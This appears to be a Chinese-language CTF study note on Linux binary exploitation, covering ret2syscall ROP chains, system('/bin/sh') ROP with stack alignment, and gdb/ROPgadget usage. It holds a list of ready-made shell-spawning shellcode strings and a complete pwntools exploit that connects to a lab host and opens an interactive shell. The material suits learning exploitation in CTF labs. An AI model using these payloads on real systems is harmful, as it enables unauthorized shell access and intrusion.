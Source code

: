 1.ret2syscall
==

介绍#
-
控制程序执行系统调用，获取 shell

判断#
-
如果没有system和开启了NX（栈不可执行）保护可以用（有system最好用ret2text，方便省事，没开NX直接ret2shellcode）

步骤#
-

32位和64位的syscall原理都是一样，只有传参和调用存在差异，以下一起说，做个对比。<br>

    32位系统调用使用 " int 80h "
    64位系统调用使用 " syscall " （汇编代码就是syscall 直接ROPgadget--only查找即可）
    
32的系统调用号与64位的不大一样 使用的时候最好百度一下

    32位     #define __NR_execve 11
    64位     #define __NR_execve 59   （0x3b）

32位的系统调用号放在eax 传参依次是 **EBX、ECX、EDX、ESI、EDI、EBP**   <br>
64位的系统调用号放在rax 传参依次是 **RDI、RSI、RDX、R10、R8、R9**  （和64位函数传参一样）<br>


构造ROP chain:<br>
①没有/bin/sh字眼 只能自己加到bss区域，然后调用execve("/bin/sh",NULL,NULL)<br>
查找bss：<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/7b7d482f-4c63-46f8-9917-d568ac11ab05)
<br>

②有/bin/sh，溢出成功后，通过寻找特定的寄存器，以寄存器承载特定的数据，构造 execve(“/bin/sh”,NULL,NULL) 的汇编实现，将其部署栈中，劫持控制流实现获取 shell。
<br>
如何构造汇编实现？(64bit)

    execve("/bin/sh",NULL,NULL)
    系统调用号，rax为59
    第一个参数，rdi指向/bin/sh
    第二个参数，为0
    第三个参数，为0
    第四个参数，为0
    第五个参数，rsi为0
    payload = "A"*offset(偏移量) + flat(rdi,bin_sh,rax_rdx_rbx,59,0,0,rsi,0,syscall)

查找各寄存器地址：

```
ROPgadget --binary ret2syscall --only "syscall|ret"
ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'rdx'    #rdx=0x000000000040168b
```

![image](https://github.com/xhsy0314/Task/assets/84487619/6979353a-b56c-4ae4-9739-a244bad2fc38)


2.shellcode
==

shellcode收集：(持续补充)

```
# 32位 短字节shellcode --> 21字节
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

# 32位 纯ascii字符shellcode
PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA

# 32位 scanf可读取的shellcode
\xeb\x1b\x5e\x89\xf3\x89\xf7\x83\xc7\x07\x29\xc0\xaa\x89\xf9\x89\xf0\xab\x89\xfa\x29\xc0\xab\xb0\x08\x04\x03\xcd\x80\xe8\xe0\xff\xff\xff/bin/sh

# 64位 scanf可读取的shellcode 22字节
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05

# 64位 较短的shellcode  23字节
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05

# 64位 纯ascii字符shellcode
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
```

```
shellcode=""
io.sendline(shellcode)
```

3.system函数参数非/bin/sh (64位)
-

```
__int64 dofunc()
{
  __int64 buf; // [rsp+8h] [rbp-8h] BYREF

  buf = 0LL;
  puts("input:");
  read(0, &buf, 0x100uLL);
  return 0LL;
}
```

buf栈溢出，动态调试计算能够输入的长度:

```
gdb file
b main
r
n    ---步过，直到执行到某个函数
s    ---进入该函数
n    ---直到回车后提示输入数据
随便输入一些数据
stack 24    ---查看栈情况
```

![image](https://github.com/xhsy0314/Task/assets/84487619/87c3d24b-8fa0-4954-8c7b-2d581f2feb08)<br>

rbp-rsi之间就是buf中能够输入数据的长度，也是填充数据的长度，这里是0x10-0x8=8.<br>
然后还需要填充8个字节的数据，因为rbp占8个字节。也就是一共填充16个垃圾数据。<br>

易忽略的点：**64位程序中的system函数的栈对齐问题**

1、将system函数地址+1，此处的+1，即是把地址+1，也可以理解为<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/eb180202-e2d8-487b-9baf-750facc25279)<br>
本来我们应该是用401186这个地址的，但是我们现在要跳过一条指令，那自然就是用401187，这样就跳过了push rbp这条指令。
2、直接在调用system函数地址之前去调用一个ret指令。因为本来现在是没有对齐的，那我现在直接执行一条对栈操作指令（ret指令等同于pop rip，该指令使得rsp+8，从而完成rsp16字节对齐），这样system地址所在的栈地址就是0结尾，从而完成了栈对齐。<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/d13b7ae2-28d0-452d-a88e-f83db2e3e31c)<br>


因此payload：

```
payload = b'a' * offset # 溢出大小
payload += p64(ret) # ret地址
payload += p64(pop rdi) # pop rdi地址
payload += p64(binsh) # /bin/sh字符串地址
payload += p64(sys) # _system函数地址
```

其中ret地址就是上图中的0x401198.<br>
pop rdi：
```
ROPgadget --binary find_sh --only 'pop|ret' | grep 'rdi' 
```
![image](https://github.com/xhsy0314/Task/assets/84487619/e8b3f0a0-9b54-4d6f-9341-a4490d350efd)<br>

binsh:<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/9a492389-2b47-49b4-a542-93f3e9e6a615)
<br>

system:<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/9af975e0-7e9f-4da9-8083-81dcd2d039ca)<br>

完整exp：

```
from pwn import *
							
#p=process("./stack_overflow")
io=remote("10.140.32.159",48126)

binsh=0x404040
sys=0x401070
ret=0x401198
poprdi=0x0000000000401253
#p64(0x0000000000401198) +
payload= b'A'*8 +b'B'*8 +p64(ret)+p64(poprdi)+p64(0x404040)+ p64(sys)

io.sendline(payload)
io.interactive()
```



